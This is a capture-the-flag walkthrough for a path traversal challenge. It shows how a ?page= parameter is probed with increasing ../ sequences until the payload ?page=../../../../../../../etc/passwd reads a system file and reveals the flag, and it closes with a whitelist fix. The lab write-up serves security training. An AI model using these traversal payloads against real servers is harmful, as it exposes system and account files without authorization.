

# 13 - Path Traversal

## Walkthrough

### 1. Detect the Vulnerability

Observe the URL structure of the application. The `page` parameter in the query string
controls which page is loaded:

```
http://<target>/?page=signin
http://<target>/?page=media
```

The server appears to include files based on the value of `?page=` — this is a classic
indicator of a potential **Path Traversal** vulnerability.

---

### 2. First Attempt — curl (Inconclusive)

A first attempt using `curl` with the `--path-as-is` flag to send raw traversal sequences:

```bash
curl --path-as-is "http://<target>/../../"
```

This returned a **Bad Request** error every time — the server or a WAF was blocking
directory traversal in the URL path itself.

> The traversal must happen through the **query string parameter**, not the URL path.

---

### 3. Probe the Depth via the `?page=` Parameter

Switch to injecting `../` sequences directly into the `?page=` parameter and increment
the depth one level at a time to observe the server's response:

| Payload | Server Response |
|---------|----------------|
| `?page=../` | `wtf` |
| `?page=../../` | `wrong` |
| `?page=../../../` | `Nope` |
| `?page=../../../../` | `Almost` |
| `?page=../../../../../` | `still nope` |
| `?page=../../../../../../` | `Nope..` |
| `?page=../../../../../../../` | `You can DO it !!! :]` |
| `?page=../../../../../../../../` | `You can DO it !!! :]` |

The message **`You can DO it !!! :]`** confirms we have reached (or passed) the filesystem root `/`.
From this point, any additional `../` stays at `/` — we are at the top of the tree.

---

### 4. Target a Sensitive File

With the traversal depth established, append the classic sensitive file path.
On Linux systems, `/etc/passwd` contains user account information and is always
the first target in a path traversal attack:

```
?page=../../../../../../../etc/passwd
```

The server responds with the **flag** inside the page alert.

---

### 5. Why This Works

The vulnerability exists because:

- The server uses the `?page=` parameter to **directly include a file** from the filesystem
- It does **not sanitize** or restrict `../` sequences in the parameter value
- An attacker can walk up the directory tree to reach any readable file on the server
- `/etc/passwd` is world-readable by default on Linux systems

A proper fix would involve **whitelisting** allowed page values and never passing
user-supplied input directly to a file inclusion function.

---

## Summary

Observe `?page=` parameter → Attempt curl (blocked) → Inject `../` via query string → Increment depth until `You can DO it !!! :]` → Append `/etc/passwd` → Get flag

---

## Screenshot

